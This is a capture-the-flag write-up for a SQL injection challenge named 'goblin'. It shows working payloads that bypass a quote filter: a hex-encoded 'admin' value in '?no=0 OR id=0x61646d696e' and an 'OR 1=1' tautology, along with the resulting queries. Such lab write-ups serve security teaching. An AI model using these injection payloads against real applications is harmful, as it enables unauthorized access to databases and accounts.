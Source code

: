 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 3
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/d35d9a32-55a6-4752-a4d4-955971ba3131)

We are provided with the SQL query:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no={$_GET[no]}
```

This time the application blocks quotation marks. It also does not directly insert user input into the `id` field.

The code also performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello {$result[id]}`.
2. `if($result['id'] == 'admin')`: It then checks if the `id` is set to `admin`. If yes, it prints the flag.

We want the first conditional statement to be skipped and the second one to be executed.

There are two methods.

### Method 1

In order to make the result of the first query `False`, we can provide the following URI:

```
?no=0
```

The resultant query then becomes:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=0
```

Since no=0 is always false, the result of the `AND` operation will always be `False`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/130b241a-088d-4187-86fb-5944f1ff0503)

As expected, the `Hello {$result[id]}` message isn't printed.

In order to execute the second conditional statement, we can provide the following URI:

```
?no=0 OR id=0x61646d696e
```

We are providing the Hexadecimal representation of the `admin` string.

The resultant query will be:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=0 OR id=0x61646d696e
```

The result of the first conditional is already `False` and because we just the `id` field to `admin`, the flag will be printed.

![3](https://github.com/Kunull/Write-ups/assets/110326359/f349d379-8a99-4e6f-b4fa-6c9b2c08e527)


### Method 2

If we provide the following URI:

```
?no=no
```

The resultant query will be:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=no
```

The result will always be `True` since any column (`no`) compared with itself is always true.

Next, if we add an `OR` command as follows:

```
?no=no OR 1=1 ORDER BY id;
```

The resultant query will be:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=no OR 1=1 ORDER BY id;
```

This will print out all the rows as 1=1 is always true and anything `OR` with true is true.

![4](https://github.com/Kunull/Write-ups/assets/110326359/dbfef2c6-67a6-4d7a-9403-8a3a18bae228)
